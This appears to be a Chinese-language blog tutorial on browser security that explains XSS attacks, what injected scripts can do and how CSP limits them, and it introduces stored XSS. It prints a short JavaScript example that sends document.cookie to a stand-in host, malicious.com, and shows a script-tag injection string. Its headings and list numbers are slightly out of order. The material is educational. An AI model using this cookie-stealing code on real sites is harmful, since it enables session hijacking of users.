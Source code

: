 ![08-1.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/64eb06d2f0f745debc1cd853cbf86bcd~tplv-k3u1fbpfcp-watermark.image?)

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器.

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`3     open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码**。通过这些手段就可以大大减少 XSS 攻击。

### 2.2 跨域解决策略

## 3. 跨站脚本攻击(XSS)

不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是XSS 攻击。

> XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”。但是发展到现在，往HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限。

如果页面被注入了恶意 JavaScript 脚本：

> 1.  可以**窃取 Cookie 信息**。恶意 JavaScript 可以通过“document.cookie”获取 Cookie信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
> 0.  可以**监听用户行为**。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
> 0.  可以通过**修改 DOM**伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
> 0.  还可以**在页面内生成浮窗广告**，这些广告会严重地影响用户体验。

除了以上几种情况外，恶意脚本还能做很多其他的事情，这里就不一一介绍了。总之，如果让页面插入了恶意脚本，那么就相当于把我们页面的隐私数据和行为完全暴露给黑客了。

### 3.1 存储型XSS攻击

![08-2.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/0e758d5943024c1d9930b142bee229e7~tplv-k3u1fbpfcp-watermark.image?)

存储型 XSS 攻击大致需要经过如下步骤：

> 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；
>
> 然后用户向网站请求包含了恶意 JavaScript 脚本的页面；
>
> 当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器。

常见的XSS比如：服务器对关键字审核不严格，用户可以输入类似于这样的`<script src="xxx"></script>`字段储存于服务器中。当服务器渲染带有有该字段的页面，就会去下载该脚本引用的文件。
